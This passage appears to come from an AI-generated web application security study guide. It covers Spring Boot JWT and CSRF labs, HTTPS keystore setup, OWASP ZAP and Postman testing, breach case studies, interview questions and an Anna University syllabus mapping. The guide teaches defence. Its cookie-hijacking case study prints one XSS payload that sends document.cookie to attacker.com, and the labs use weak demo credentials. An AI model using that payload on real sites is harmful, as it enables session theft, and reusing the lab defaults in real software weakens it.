    import org.springframework.web.bind.annotation.GetMapping;
    import org.springframework.web.bind.annotation.RestController;

    @RestController
    public class ProtectedController {

        @GetMapping("/hello")
        public ResponseEntity<String> hello() {
            return ResponseEntity.ok("Hello from protected endpoint!");
        }

        @GetMapping("/admin/dashboard")
        public ResponseEntity<String> adminDashboard() {
            return ResponseEntity.ok("Welcome to the Admin Dashboard!");
        }
    }
    ```

**How to test:**

  * Run the Spring Boot application.
  * **Login (using Postman):**
      * **POST** to `http://localhost:8080/authenticate`
      * **Body (raw JSON):**
        ```json
        {
            "username": "user",
            "password": "password"
        }
        ```
      * You should get a JWT in the response.
  * **Access Protected Endpoint (`/hello`):**
      * **GET** to `http://localhost:8080/hello`
      * **Headers:** Add `Authorization: Bearer <your_jwt_token_from_login>`
      * You should get "Hello from protected endpoint\!". Without the token, you'll get 401 Unauthorized.
  * **Access Admin Endpoint (`/admin/dashboard`):**
      * **GET** to `http://localhost:8080/admin/dashboard`
      * **Headers:** Add `Authorization: Bearer <your_jwt_token_from_login_as_admin>` (if you log in as 'admin' with password 'password', you'll get a token with 'ADMIN' role).
      * If logged in as 'user', you'll get 403 Forbidden. If logged in as 'admin', you'll get "Welcome to the Admin Dashboard\!".

#### Secure Login Forms with CSRF

This section would involve a full-stack setup (Spring Boot backend + a simple frontend).

**Backend (Spring Boot):**

  * **CSRF Protection:** Spring Security provides robust CSRF protection by default for session-based applications.
      * It generates a unique CSRF token per request, which must be included in non-GET requests (POST, PUT, DELETE).
      * The token is usually provided in a hidden input field in forms or as a header for AJAX requests.
  * **Enable CSRF:** Ensure CSRF is *not* disabled in `SecurityConfig` for form-based login:
    ```java
    // In SecurityConfig.java
    import org.springframework.security.web.csrf.CookieCsrfTokenRepository;
    // ...
    @Bean
    public SecurityFilterChain securityFilterChain(HttpSecurity http) throws Exception {
        http
            .authorizeHttpRequests(authorize -> authorize
                .requestMatchers("/login", "/register", "/public/**").permitAll()
                .anyRequest().authenticated()
            )
            .formLogin(form -> form
                .loginPage("/login") // Custom login page
                .permitAll()
            )
            .csrf(csrf -> csrf
                .csrfTokenRepository(CookieCsrfTokenRepository.withHttpOnlyFalse()) // Sends CSRF token in a cookie
            );
            // ... other security config
        return http.build();
    }
    ```
  * **Controller for Login Page:**
    ```java
    import org.springframework.stereotype.Controller;
    import org.springframework.web.bind.annotation.GetMapping;

    @Controller
    public class LoginController {
        @GetMapping("/login")
        public String login() {
            return "login"; // Returns login.html (Thymeleaf) or login.jsp
        }

        @GetMapping("/dashboard")
        public String dashboard() {
            return "dashboard";
        }
    }
    ```

**Frontend (HTML + Thymeleaf for Spring Boot):**

  * **`login.html` (Thymeleaf example):**
    ```html
    <!DOCTYPE html>
    <html lang="en" xmlns:th="http://www.thymeleaf.org">
    <head>
        <meta charset="UTF-8">
        <title>Login</title>
    </head>
    <body>
        <h2>Login Page</h2>
        <div th:if="${param.error}" style="color: red;">
            Invalid username or password.
        </div>
        <div th:if="${param.logout}" style="color: green;">
            You have been logged out.
        </div>
        <form th:action="@{/login}" method="post">
            <div>
                <label for="username">Username:</label>
                <input type="text" id="username" name="username" required>
            </div>
            <div>
                <label for="password">Password:</label>
                <input type="password" id="password" name="password" required>
            </div>
            <input type="hidden" th:name="${_csrf.parameterName}" th:value="${_csrf.token}" />
            <div>
                <button type="submit">Login</button>
            </div>
        </form>
    </body>
    </html>
    ```
      * **Key part:** `<input type="hidden" th:name="${_csrf.parameterName}" th:value="${_csrf.token}" />` This automatically injects the CSRF token into the form. Spring Security will check this token upon submission.

#### HTTPS Cert Integration

This was covered in detail in the `HTTPS in Java Spring Boot apps` section. For a lab, you would configure `application.properties` as shown previously, using a self-signed certificate for local testing or a Let's Encrypt cert if deploying to a publicly accessible server.

**Example `application.properties` for self-signed cert:**

```properties
server.port=8443
server.ssl.enabled=true
server.ssl.key-store=classpath:keystore.p12
server.ssl.key-store-password=changeit
server.ssl.key-alias=springboot
server.ssl.key-store-type=PKCS12
```

To create `keystore.p12` for local testing:

```bash
keytool -genkeypair -alias springboot -keyalg RSA -keysize 2048 -storetype PKCS12 -keystore keystore.p12 -validity 365 -dname "CN=localhost, OU=IT, O=MyCompany, L=MyCity, ST=MyState, C=IN" -storepass changeit -keypass changeit
```

Place `keystore.p12` in `src/main/resources`.

### 🛠️ Tools:

#### OWASP ZAP Scan on your local Spring App

**OWASP ZAP (Zed Attack Proxy)** is a free, open-source web application security scanner. It helps you find security vulnerabilities in your web applications during development and testing.

**Lab Steps:**

1.  **Run your Spring Boot App:** Ensure your Spring Boot application (e.g., the JWT auth app) is running, preferably on HTTPS (port 8443).
2.  **Download and Install ZAP:** Download ZAP from `https://www.zaproxy.org/download/`. Install it.
3.  **Start ZAP:** Launch ZAP.
4.  **Configure Proxy (if needed):**
      * ZAP acts as a proxy. You can configure your browser to send traffic through ZAP (default: `localhost:8080` for ZAP, **not your app's port**).
      * **Recommended for beginners:** Use ZAP's built-in browser or "Quick Start" automated scan.
5.  **Automated Scan (Quick Start):**
      * In ZAP, go to "Quick Start" tab.
      * In the "URL to attack" field, enter your Spring Boot app's URL (e.g., `https://localhost:8443`).
      * Click "Attack". ZAP will spider the application (discover pages) and then perform an active scan for vulnerabilities.
6.  **Manual Exploration & Proxying (More Advanced):**
      * Configure your browser (or use ZAP's browser) to proxy traffic through ZAP (Tools -\> Options -\> Local Proxies).
      * Manually browse through your application, logging in, interacting with forms, APIs. ZAP will record all requests and responses in its "History" tab.
      * This helps ZAP build a more complete map of your application.
7.  **Active Scan:**
      * After manual exploration or spidering, select a site or URL in the "Sites" tree.
      * Right-click and select "Attack" -\> "Active Scan".
      * ZAP will launch various attacks (e.g., SQL Injection, XSS, Path Traversal) against your application.
8.  **Analyze Results:**
      * Check the "Alerts" tab for identified vulnerabilities. ZAP categorizes them by risk (High, Medium, Low, Info) and provides details, recommendations, and references (like OWASP Top 10).
      * For the JWT app, you might see "Missing Anti-CSRF Token" on the `/authenticate` endpoint (which is okay for API, as CSRF is for forms) or "Information Disclosure - Server header" if your app exposes server info.
      * **Focus on fixing High/Medium alerts.**

#### Postman Secured API Testing

Postman is an API platform for building and using APIs. It's excellent for testing secure APIs.

**Lab Steps:**

1.  **Install Postman:** Download from `https://www.postman.com/downloads/`.
2.  **Test JWT Login:**
      * Create a new request.
      * **Method:** `POST`
      * **URL:** `http://localhost:8080/authenticate`
      * **Headers:** `Content-Type: application/json`
      * **Body (raw JSON):**
        ```json
        {
            "username": "user",
            "password": "password"
        }
        ```
      * Click "Send".
      * **Expected Result:** You'll receive a JSON response containing the JWT. Copy this JWT.
3.  **Test Protected Endpoint:**
      * Create another new request.
      * **Method:** `GET`
      * **URL:** `http://localhost:8080/hello`
      * **Authorization Tab:**
          * Select "Type" as `Bearer Token`.
          * Paste the copied JWT into the "Token" field.
      * Click "Send".
      * **Expected Result:** You should get a 200 OK response with "Hello from protected endpoint\!".
4.  **Test Authorization Failure:**
      * Try accessing `/admin/dashboard` with the "user" token.
      * **Expected Result:** 403 Forbidden.
      * Try accessing `/hello` without any token.
      * **Expected Result:** 401 Unauthorized.

### 🎯 Real-Time Case Studies:

  * **Banking App Login:**

      * **Scenario:** A user logs into their online banking portal.
      * **Security Controls:**
          * **HTTPS/TLS:** Absolutely critical for all communication.
          * **Strong Authentication:** Multi-Factor Authentication (MFA) is common (OTP via SMS/authenticator app).
          * **Password Policies:** Enforce strong, unique passwords. Account lockout after multiple failed attempts.
          * **Session Management:** Short session timeouts, session ID regeneration on login, `HttpOnly`, `Secure`, `SameSite=Lax` cookies.
          * **Input Validation:** Strict validation on username, password fields to prevent injection.
          * **Logging:** Audit logs for all login attempts (success/failure), transactions.
          * **Fraud Detection:** Real-time analysis of login patterns, IP addresses.
      * **Potential Exploit (and defense):**
          * **Credential Stuffing:** Attackers use stolen credentials from other breaches.
              * **Defense:** MFA, rate limiting on login attempts, CAPTCHA, anomaly detection.
          * **Session Hijacking:** Attacker steals session cookie.
              * **Defense:** `HttpOnly`, `Secure` cookies, short session timeouts, IP address binding to session.

  * **Amazon Auth Flow:**

      * **Scenario:** A user logs into Amazon, then adds an item to their cart, and proceeds to checkout.
      * **Security Controls:**
          * **Federated Identity (SSO):** Amazon often uses internal SSO for its various services (Prime Video, AWS, etc.) after initial authentication. OAuth2/OpenID Connect are likely underlying protocols.
          * **Cookie-based Authentication:** For web browser sessions.
          * **CSRF Protection:** Critical for actions like adding to cart, making purchases. Hidden CSRF tokens in forms and anti-CSRF headers for AJAX.
          * **Input Validation:** On product search, quantity, shipping address.
          * **Payment Gateway Integration:** Securely handles payment details, often offloading PCI DSS compliance to external providers.
          * **API Security:** For mobile apps and internal services.
      * **Potential Exploit (and defense):**
          * **Cross-Site Request Forgery (CSRF):** An attacker tricks a logged-in user into making an unintended purchase.
              * **Defense:** CSRF tokens (`SameSite` cookies for modern browsers, explicit tokens for older browsers/APIs).
          * **Broken Access Control:** A user manipulates a URL parameter to view another user's order details.
              * **Defense:** Proper server-side authorization checks on every resource access, ensuring the authenticated user is authorized to view that specific order.

  * **Cookie/Session Exploit Analysis (e.g., Session Hijacking with XSS):**

      * **Scenario:** A website has an XSS vulnerability in a comment section. An attacker posts a comment like:
        `<script>window.location='http://attacker.com/steal?cookie='+document.cookie;</script>`
      * **Exploit:**
        1.  A legitimate user visits the page with the malicious comment.
        2.  The browser executes the attacker's JavaScript.
        3.  The JavaScript tries to read `document.cookie` and sends it to `attacker.com`.
        4.  If the session cookie does *not* have the `HttpOnly` flag, the JavaScript successfully reads and exfiltrates the session cookie.
        5.  The attacker receives the victim's session cookie.
        6.  The attacker uses this cookie in their own browser (e.g., with a browser extension) to hijack the victim's session and impersonate them without needing their password.
      * **Defense:**
        1.  **Output Encoding:** The primary defense against XSS. Properly encode all user-supplied output (e.g., using Thymeleaf's `th:text` or JSTL's `<c:out>`). This would turn `<script>` into `&lt;script&gt;`, preventing execution.
        2.  **`HttpOnly` Cookie Flag:** Even if XSS is present, if your session cookie is marked `HttpOnly`, the attacker's JavaScript *cannot* access `document.cookie`, preventing cookie theft. This is a crucial **defense-in-depth** measure.
        3.  **Content Security Policy (CSP):** A security mechanism that helps mitigate XSS attacks by whitelisting sources of content (e.g., scripts, styles, images). If the malicious script tries to send data to `attacker.com`, and `attacker.com` is not in the CSP's `connect-src` whitelist, the browser will block the request.

-----

### 🧠 Interview Preparation (MCQs, scenario-based Qs, explanations)

#### MCQs:

1.  **Which of the following is NOT a goal of the CIA Triad?**
    a) Confidentiality
    b) Integrity
    c) Authenticity
    d) Availability
    **Answer: c) Authenticity** (Authenticity is related to identification/verification, but not one of the primary three goals of the CIA triad itself. It contributes to confidentiality and integrity.)

2.  **Which HTTP method should be used for retrieving data and should ideally be idempotent?**
    a) POST
    b) PUT
    c) GET
    d) DELETE
    **Answer: c) GET**

3.  **The primary purpose of the `HttpOnly` flag on a cookie is to prevent which type of attack?**
    a) SQL Injection
    b) Cross-Site Scripting (XSS)
    c) Cross-Site Request Forgery (CSRF)
    d) Brute Force
    **Answer: b) Cross-Site Scripting (XSS)**

4.  **What is the most effective defense against SQL Injection in Java applications?**
    a) Blacklisting special characters
    b) Using prepared statements
    c) Encoding output
    d) Client-side input validation
    **Answer: b) Using prepared statements**

5.  **In a microservices architecture, what component often handles initial authentication, rate limiting, and SSL termination for incoming requests?**
    a) Database
    b) Individual Microservice
    c) API Gateway
    d) Frontend UI
    **Answer: c) API Gateway**

#### Scenario-based Questions:

1.  **Scenario:** Your Spring Boot application allows users to upload profile pictures. After deployment, you discover that attackers can upload `.jsp` files and then execute arbitrary code on your server.

      * **Question:** What vulnerability is this, and how would you fix it from a DevSecOps perspective?
      * **Explanation:** This is a **Malicious File Upload** vulnerability (often leading to Remote Code Execution).
          * **Fixes:**
              * **Input Validation (Shift Left):**
                  * **Backend:** Strictly validate file types based on a **whitelist** (e.g., only allow `image/jpeg`, `image/png`). Do *not* rely on file extensions; check actual MIME types.
                  * **Backend:** Validate file content (e.g., using image libraries to ensure it's a valid image).
                  * **Backend:** Limit file size.
              * **Secure Storage:**
                  * Store uploaded files outside the web root or in cloud storage (S3, Azure Blob Storage) with restricted access.
                  * If stored locally, ensure the directory does not have execute permissions.
                  * Sanitize filenames to prevent path traversal (`../`) or other injection attacks.
              * **Runtime Environment Hardening:**
                  * Ensure the application server (Tomcat/Jetty) does not automatically execute files from upload directories.
              * **Monitoring:** Monitor file system for suspicious file creations.
              * **DevSecOps:** Integrate file upload security checks into CI/CD pipeline (e.g., static analysis for upload logic, dynamic testing for execution).

2.  **Scenario:** Your company's new public-facing web application uses HTTP and stores session IDs in unsecure cookies. A security audit highlights high risk.

      * **Question:** Explain the risks involved and what immediate and long-term steps you would take to mitigate them.
      * **Explanation:**
          * **Risks:**
              * **Man-in-the-Middle (MITM) Attacks:** Without HTTPS, an attacker on the same network can easily eavesdrop on all traffic (login credentials, session IDs, sensitive data) in plain text.
              * **Session Hijacking:** If session IDs are transmitted in plain text, an attacker can capture them and use them to impersonate logged-in users.
              * **Data Tampering:** Data sent over HTTP can be modified in transit by an attacker without detection.
              * **Reputational Damage & Compliance Failure:** Users lose trust; likely non-compliance with regulations.
          * **Immediate Steps:**
              * **Implement HTTPS immediately:** Obtain and install an SSL/TLS certificate (e.g., Let's Encrypt for quick setup, or a commercial CA). Configure the server (Nginx/Apache/Spring Boot) to redirect all HTTP traffic to HTTPS.
              * **Add `Secure` flag to all cookies:** Ensure session cookies and any other sensitive cookies are only sent over HTTPS.
              * **Add `HttpOnly` flag to session cookies:** Prevent client-side scripts from accessing session cookies, mitigating XSS-based session hijacking.
          * **Long-Term Steps:**
              * **HSTS (HTTP Strict Transport Security):** Configure the web server to send an HSTS header, forcing browsers to only connect via HTTPS for a specified period, even if the user tries to go to HTTP.
              * **`SameSite` cookie attribute:** Implement `SameSite=Lax` or `Strict` to mitigate CSRF, adding another layer of defense.
              * **Session ID Regeneration:** Ensure session IDs are regenerated upon successful authentication to prevent session fixation.
              * **Comprehensive Security Audit:** Conduct a full security audit (pen test, vulnerability scanning) to identify other potential flaws.
              * **Integrate SSDLC:** Embed security throughout the entire development lifecycle for future features.

#### Explanations:

1.  **Explain the "Shift Left" philosophy in DevSecOps.**

      * **Explanation:** Shift Left in DevSecOps means integrating security activities and testing into the earliest possible phases of the Software Development Lifecycle (SDLC), rather than treating security as a separate, end-of-cycle gate. The goal is to identify and remediate security vulnerabilities and misconfigurations at the design and coding stages, where they are significantly cheaper, faster, and easier to fix.
      * **Benefits:** Reduces costs and time for remediation, improves overall security posture, fosters a security-first culture, and prevents security issues from snowballing into larger problems in production.
      * **Examples:** Threat modeling during requirements, secure coding guidelines for developers, static application security testing (SAST) in CI/CD pipelines, security unit tests, and security reviews of architectural designs.

2.  **Describe the role of an API Gateway in securing microservices.**

      * **Explanation:** In a microservices architecture, an API Gateway acts as a single, intelligent entry point for all client requests to the distributed services. Its primary security roles include:
          * **Centralized Authentication and Authorization:** It can handle user authentication (e.g., validating JWTs or OAuth tokens) and initial authorization checks, offloading this responsibility from individual microservices.
          * **SSL/TLS Termination:** It can terminate HTTPS connections, allowing internal microservice communication to be plain HTTP (or mTLS for stronger security), simplifying certificate management for individual services.
          * **Rate Limiting and Throttling:** Protects backend services from abuse and DDoS attacks by controlling the number of requests clients can make.
          * **Input Validation:** Can perform initial, coarse-grained validation of incoming requests.
          * **Auditing and Logging:** Provides a central point for logging all incoming API requests for security monitoring and forensics.
          * **Protection against common API attacks:** Can filter malicious requests and enforce API usage policies.
            By centralizing these concerns, the API Gateway reduces the security burden on individual microservices and provides a consistent security posture.

-----

### 🔍 Common Mistakes & Fixes

1.  **Mistake:** Storing sensitive data (like passwords, API keys) directly in code, plain text configuration files, or version control.

      * **Fix:** Use environment variables, secure secret management services (e.g., HashiCorp Vault, AWS Secrets Manager, Azure Key Vault), or encrypted properties files. Ensure `.gitignore` properly excludes sensitive files.

2.  **Mistake:** Relying solely on client-side input validation.

      * **Fix:** Always perform **server-side input validation** (whitelist approach). Client-side validation is for UX only.

3.  **Mistake:** Not regenerating session IDs after successful authentication (Session Fixation).

      * **Fix:** Configure your framework (Spring Security does this by default) to invalidate the old session and create a new one upon user login.

4.  **Mistake:** Not using `HttpOnly` and `Secure` flags for session cookies.

      * **Fix:** Ensure all session and authentication cookies have `HttpOnly` (prevents XSS-based theft) and `Secure` (ensures transmission over HTTPS only) flags enabled. Also, use `SameSite` to prevent CSRF.

5.  **Mistake:** Exposing detailed error messages and stack traces to end-users in production.

      * **Fix:** Implement custom, generic error pages. Configure logging to ensure detailed error information is only written to secure server-side logs, not displayed in browser.

6.  **Mistake:** Using default credentials or weak passwords for databases, application servers, or admin interfaces.

      * **Fix:** Always change default credentials. Enforce strong password policies.

7.  **Mistake:** Ignoring security warnings from IDEs, static analysis tools (SAST), or vulnerability scanners (DAST).

      * **Fix:** Integrate these tools into your CI/CD pipeline and establish a process for reviewing and remediating identified vulnerabilities promptly. Prioritize critical and high-severity findings.

8.  **Mistake:** Hardcoding IP addresses or domain names for external services without proper validation, leading to SSRF.

      * **Fix:** Implement strict whitelist validation for all URLs or hosts accessed by the server, especially for external connections. Use robust URL parsing and validation libraries.

9.  **Mistake:** Not patching and updating dependencies regularly.

      * **Fix:** Set up automated dependency scanning (e.g., Dependabot, Snyk, OWASP Dependency-Check). Regularly update libraries and frameworks to their latest stable versions, especially security patches.

10. **Mistake:** Assuming internal network communication is inherently safe in microservices.

      * **Fix:** Implement **Mutual TLS (mTLS)** for service-to-service communication to ensure both parties are authenticated and communication is encrypted.

-----

### 📊 Visual diagrams for every key concept

(As provided throughout the document using Mermaid code. Each major concept has at least one diagram.)

-----

### 🗂 Mini Projects or Labs (Java Spring + frontend stack-based)

The JWT Auth and Secure Login Forms sections provide the core of a mini-project. To expand this into a full-stack secure application:

**Project Idea: Secure Blog/Forum Application**

**Backend (Spring Boot):**

  * **User Management:**
      * Register, Login (JWT-based API authentication).
      * User roles (e.g., `ROLE_USER`, `ROLE_MODERATOR`, `ROLE_ADMIN`).
      * Password encoding (BCrypt).
  * **Blog Posts/Forum Threads:**
      * CRUD operations for posts/threads.
      * **Security:**
          * **Authentication:** Only authenticated users can create/edit posts.
          * **Authorization:**
              * Users can only edit/delete their *own* posts (Object-Level Authorization).
              * Moderators/Admins can edit/delete *any* post.
              * Use `@PreAuthorize` in Spring Security.
          * **Input Validation:** Validate post titles, content (e.g., length, allowed HTML tags if any).
          * **Output Encoding:** Crucial for displaying user-generated content (comments, post bodies) to prevent XSS.
  * **Comments:**
      * Users can add comments to posts.
      * **Security:** Same as posts (authentication, authorization, input validation, output encoding).
  * **Secure File Upload (Optional):** Allow users to upload images for profile or posts. Implement all the file upload security best practices.
  * **Error Handling:** Custom error pages, no stack traces.
  * **Logging:** Secure logging, no sensitive data.
  * **HTTPS:** Configure your Spring Boot app to use HTTPS (self-signed for local, Let's Encrypt for deployment).
  * **CSRF:** For any form submissions (if you have actual forms in the frontend, rather than purely API-driven).

**Frontend (React/Angular/Vue.js):**

  * **User Interface:** Build forms for login, registration, creating posts, adding comments.
  * **Authentication:**
      * Send login credentials to Spring Boot `/authenticate` endpoint.
      * Store the received JWT securely (e.g., in `localStorage` or `sessionStorage` - `sessionStorage` is preferred for short-lived tokens to mitigate XSS risk, but keep in mind it doesn't survive tab close).
      * Include JWT in `Authorization: Bearer <token>` header for all subsequent API calls.
  * **Authorization Display:** Show/hide UI elements based on user roles/permissions (e.g., "Edit" button only for post owner or admin).
  * **Input Sanitization (Frontend):** For UX, but remember backend is the real enforcement.
  * **Error Handling:** Display user-friendly error messages from the backend.

**Lab Steps (High-Level):**

1.  **Setup Spring Boot Project:**
      * Initializr with `Spring Web`, `Spring Security`, `Lombok`, `Spring Data JPA` (for DB), `H2 Database` (for embedded DB), `jjwt`.
      * Add `Thymeleaf` if you plan to render any pages directly from Spring Boot (e.g., for CSRF-protected forms).
2.  **Implement JWT Auth:** Follow the JWT Auth lab steps above.
3.  **Database Setup:**
      * Create `User` and `Post` entities.
      * Use Spring Data JPA repositories.
      * Ensure secure password storage (BCrypt).
4.  **Implement User Roles and Authorization:**
      * Add roles to `UserDetails` in `MyUserDetailsService`.
      * Use `@PreAuthorize` on controller methods (e.g., for `updatePost`, `deletePost`).
5.  **Develop REST APIs:**
      * `POST /api/posts` (create post)
      * `GET /api/posts` (get all posts)
      * `GET /api/posts/{id}` (get single post)
      * `PUT /api/posts/{id}` (update post)
      * `DELETE /api/posts/{id}` (delete post)
      * APIs for comments.
6.  **Implement Input Validation (Backend):** Use `@Valid` and JSR-303 annotations on DTOs.
7.  **Error Handling & Logging:** Configure `application.properties` and implement a custom error controller.
8.  **Frontend Development:**
      * Choose React/Angular/Vue.
      * Use `fetch` or `axios` for API calls.
      * Implement login form, registration form.
      * Implement post list and detail views.
      * Add forms for creating/editing posts and comments.
9.  **Security Testing:**
      * Use Postman to test all API endpoints, verifying authentication and authorization.
      * Run OWASP ZAP scans on the running application (both backend APIs and the frontend serving static content). Look for XSS, SQLi, broken access control.
10. **HTTPS:** Configure `server.ssl` in `application.properties`.

-----

### 🧾 Anna University Mapping (Regulation 2021 Elective content)

This curriculum covers significant portions of a typical "Web Application Security" elective, especially under **Regulation 2021** (which generally focuses on contemporary technologies and practices).

**Mapping to Anna University Regulation 2021 (Likely Topics Covered):**

**UNIT I: Introduction to Web Application Security**

  * **Directly Covered:**
      * Definition and importance of Web Application Security.
      * CIA Triad (Confidentiality, Integrity, Availability).
      * Common threats and attack surfaces (OWASP Top 10, Login forms, APIs, Cookies, URL params, Frontend JS).
      * Real-world case studies (Facebook, GitHub, Equifax).
      * Secure Software Development Lifecycle (SSDLC) - Phases, Security by Design, Shift Left, Threat Modeling.

**UNIT II: Web Application Security Fundamentals (HTTP/HTTPS, TLS, etc.)**

  * **Directly Covered:**
      * HTTP request/response cycle (headers, methods, response codes).
      * Common vulnerabilities (header injection, parameter tampering).
      * HTTPS criticality (confidentiality, trust).
      * SSL/TLS certificate breakdown, browser padlock.
      * TLS handshake (asymmetric to symmetric key exchange, certificate chains, CA trust model).
      * HTTPS in Java Spring Boot using certificates.

**UNIT III: Web Application Architecture and Security Components**

  * **Directly Covered:**
      * Client-Server Model (interactions, security fit).
      * Monolithic vs. Microservices (security differences, API Gateway role).
      * Core Components: Web Servers (Apache, NGINX - SSL termination, reverse proxy), Application Servers (Tomcat, Jetty - session handling, thread safety), Databases (SQLi, credential leaks, Java DB connections/Prepared Statements).

**UNIT IV: Core Web Security Concepts**

  * **Directly Covered:**
      * Authentication vs. Authorization (differences, importance).
      * Implementation in Spring Security + JWT.
      * Real-world examples (Gmail, GitHub).
      * Session Management (cookies: HttpOnly, Secure, SameSite, session tokens).
      * Session fixation and prevention.
      * Input Validation & Output Encoding (frontend/backend Java, XSS/SQLi prevention, whitelist).
      * Error Handling & Logging (custom error pages, no stack traces, logging with masking).
      * Secure Coding Principles (Least Privilege, Defense in Depth, Fail-Safe Defaults, Spring Boot examples).

**UNIT V: Advanced Web Application Security Topics / Practical Application**

  * While not explicitly listed in my breakdown as a separate "Advanced" unit, elements from the **Practical Skills**, **Real-Time Examples**, and **Industry Best Practices** sections would contribute heavily to this unit in a university context.
      * **OWASP Tools (ZAP):** Hands-on scanning for vulnerabilities.
      * **Secure API Testing (Postman):** Practical testing of authenticated and authorized APIs.
      * **DevSecOps:** Integration of security into CI/CD (covered conceptually in SSDLC and best practices).
      * **Specific Vulnerability Deep Dives:** (SQLi, XSS, CSRF, Broken Auth/Authz - covered in depth with prevention).
      * **Mini Projects/Labs:** Direct application of concepts to build secure full-stack applications.

**Conclusion for Anna University Mapping:**

This comprehensive guide covers all essential and many advanced topics for a Web Application Security elective, aligning very well with a modern university curriculum like Anna University's Regulation 2021. The blend of theory, practical skills, real-time examples, and best practices ensures a holistic understanding.

-----

## 🎯 End Goals:

  * **Be ready for WAS interviews and coding rounds:** You've covered core concepts, common vulnerabilities, prevention techniques, and practical implementation details (Spring Security, JWT, input validation). The interview prep section directly addresses this.
  * **Build a secure Java full-stack app end-to-end:** The mini-project outline provides a roadmap, and the practical labs give you the core components (JWT auth, CSRF, HTTPS).
  * **Score well in Anna University exams (Web Application Security elective):** The detailed explanations, diagrams, and mapping ensure comprehensive coverage of typical syllabus topics.
  * **Know how attackers think, and how to defend:** By understanding common attack surfaces and vulnerabilities (OWASP Top 10), you gain insight into attacker methodologies, which is crucial for building robust defenses.
  * **Build mini projects with Spring + React that are fully secured:** The mini-project and labs provide a strong starting point for this, focusing on both backend and frontend security considerations.

You now have a solid foundation in Web Application Security. This is a dynamic field, so continuous learning and staying updated with the latest threats and best practices are essential.

What specific aspect of Web Application Security would you like to dive into next, or perhaps a more focused practical challenge?
